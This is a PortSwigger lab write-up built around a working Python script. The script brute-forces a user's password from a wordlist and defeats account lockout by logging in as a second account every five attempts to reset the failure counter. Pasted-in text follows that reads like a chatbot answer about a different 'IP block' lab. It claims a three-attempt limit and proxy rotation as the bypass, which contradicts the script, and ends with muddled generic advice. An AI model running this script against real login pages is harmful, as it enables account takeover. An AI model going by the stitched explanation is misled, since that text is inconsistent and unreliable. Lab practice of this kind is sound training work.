 # Failed attempts lockout

## Password brute forcing when failed attempt preventions are in place

In this example we will try to brute force the password for the user `carlos`
using the same technique as in the previous example, but this time the server
locks out the user after 5 failed attempts. To bypass this we will login as
`wiener:peter` and reset the failed login attempts counter.

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForcePassword:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = "carlos"

    def brute_force_password(self):
        print("🔮 Determining passwword for username", self.username)
        passwords = []
        with open("auth-broken/auth-broken-passwords") as f:
            passwords = f.readlines()
        for x, password in enumerate(passwords):
            if x % 5 == 0:
                print("Logging in as wiener to reset failed login attempts")
                self.req.post(self.args[1], data={"username": "wiener", "password": "peter"}, proxies=self.proxies, verify=False)
            print(f"Trying password: {password.strip()}❓")
            # send request with form data: username, password
            self.password = password.strip()
            self.url = self.args[1]
            self.cookies = {}
            response = self.req.post(self.url, data={"username": self.username, "password": self.password}, proxies=self.proxies, verify=False)
            if response.text and self.username in response.text:
                print(f"⚖️ Found password: {self.password}")
                with open("auth-broken-password-result", "w") as f:
                    f.write(self.password)
                break
        exit(0)

AuthBruteForcePassword().brute_force_password()
```

<a href="https://asciinema.org/a/TSJacBW5twvHpsFvDMwwfI1ST" target="_blank"><img src="https://asciinema.org/a/TSJacBW5twvHpsFvDMwwfI1ST.svg" /></a>

Sure. The Broken brute-force protection, IP block tutorial example in PortSwigger Academy demonstrates how a website can be vulnerable to brute-force attacks if it does not properly implement IP blocking.

In the tutorial, the user is first prompted to enter their username and password. After they have successfully entered their credentials, they are logged in to the website.

The website has a brute-force protection mechanism in place. This mechanism blocks the IP address of any user who makes more than three failed login attempts in a row.

However, the brute-force protection mechanism is flawed in the way that it handles IP addresses. Specifically, the website does not adequately verify that the IP address is unique.

This means that an attacker could use a proxy server to rotate their IP address and bypass the brute-force protection mechanism.

To exploit this vulnerability, the attacker would first need to obtain a list of possible usernames for the website. This could be done through a variety of methods, such as social engineering or dictionary attacks.

Once the attacker has a list of possible usernames, they would need to use a proxy server to rotate their IP address. They would then need to submit the list of usernames to the website, one username per request. If even one of the usernames is valid, the attacker will be able to log in to the website.

The Broken brute-force protection, IP block tutorial example is a good demonstration of how a website can be vulnerable to brute-force attacks if it does not properly implement IP blocking. It is important to be aware of these vulnerabilities and to take steps to protect yourself.

Here are some tips for protecting yourself from brute-force attacks:

* Use a strong password for your online accounts.
* Enable two-factor authentication for all of your online accounts.
* Change your passwords regularly.
* Be suspicious of emails or text messages that ask for your personal information.
* Install antivirus software and keep it up to date.
* Be careful about what websites you visit and what links you click on.
* Train yourself and your employees on how to identify and avoid phishing attacks.

By following these tips, you can help to protect yourself from brute-force attacks and keep your accounts safe.

In addition to the tips above, there are a few things that the website can do to protect itself from brute-force attacks:

* Implement a rate limiting mechanism to prevent users from submitting too many requests in a short period of time.
* Use a honeypot account to lure attackers into entering invalid credentials.
* Implement a CAPTCHA challenge to verify that the user is human.
* Monitor the website for suspicious activity, such as a large number of failed login attempts from the same IP address.

By implementing these measures, the website can help to protect itself from brute-force attacks.